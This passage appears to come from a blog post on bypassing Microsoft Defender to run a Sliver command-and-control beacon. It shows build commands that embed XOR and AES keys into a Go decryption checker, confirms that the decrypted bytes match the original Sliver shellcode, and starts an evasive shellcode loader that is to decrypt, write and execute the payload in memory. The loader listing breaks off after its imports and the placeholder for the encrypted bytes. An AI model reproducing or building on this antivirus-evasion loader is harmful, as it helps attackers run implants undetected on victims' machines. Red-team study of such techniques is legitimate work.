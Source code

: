 When attempting to compile the code, I encountered issues with my VM killing the process. To overcome this, I distributed the work across 8 CPUs and increased the resources that my shell session could utilize. Additionally, I employed build-time variable substitution to pass the values of `xorKey` and `aesKey` variables during the compilation process. These values are embedded in the binary at build time, and the variables are initialized with those values when the program starts.

```bash
# Increase open file limit
ulimit -n 8192

# Increase stack size
ulimit -s unlimited

# Increase locked-in-memory size
ulimit -l unlimited

mkdir build 
cd build 
go build -p 8 --ldflags "-X main.xorKey=HelpMeWinlezPlz? -X main.aesKey=SupeRSecrET145*$" decryption_checker.go
./decryption_checker

diff sliver_data.bin ../FAR_LIVESTOCK.bin

du -sh sliver_data.bin
```

![](/assets/posts/2023-12-10-bypassing-defender-to-run-sliver/sliver_decrypt_verify.bmp)

After executing the decryptor program, we compare the binary data after decryption with the original Sliver binary data, and they are an exact match. Now, we are finally ready to build the loader for our beacon. Our `loader.go` file will contain the same logic to decrypt the binary data back into Sliver shellcode but will also add a few more steps. We will save the shellcode into a byte slice, allocate a block of virtual memory in the current process, write the shellcode to that memory, and then jump to and execute it.&#x20;

```go
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
	"golang.org/x/sys/windows"
	"syscall"
)

var xorKey string
var aesKey string

func main() {

	// Encrypted data from sliver_payload
	byteSlice := []byte{//encrypted bytes go here}
		
```